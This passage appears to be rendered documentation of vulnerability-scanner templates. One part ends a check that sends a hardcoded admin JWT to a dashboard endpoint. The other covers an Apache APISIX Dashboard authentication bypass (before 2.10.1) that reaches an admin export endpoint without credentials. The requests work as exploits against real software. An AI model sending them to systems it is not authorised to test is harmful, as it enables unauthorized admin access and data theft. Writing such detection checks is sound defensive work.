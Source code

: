 ## Requests

### Step - 1

```
GET /dashboardUser HTTP/1.1
Host: {{Hostname}}
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6ImFkbWluIiwiZXhwIjoxNjM3MjY1MTIxfQ.-jjw2bGyQxna5Soe4fLVLaD3gUT5ALTcsvutPQoE2qk

```

### Matchers

**Type - word**

- words
  1. query success
  2. "userName":"admin"
  3. "code":200
- condition - and

**Type - status**

- status
  1. 200

---

# Apache APISIX Dashboard \<2.10.1 - API Unauthorized Access

## Description

- In Apache APISIX Dashboard before 2.10.1, the Manager API uses two frameworks and introduces framework `droplet` on the basis of framework `gin.' While all APIs and authentication middleware are developed based on framework `droplet`,  some API directly use the interface of framework `gin` thus bypassing their authentication.
- severity - critical
- tags - cve,cve2021,apache,unauth,apisix

## Requests

- Method - GET

### URL

- {{RootURL}}/apisix/admin/migrate/export

### Matchers
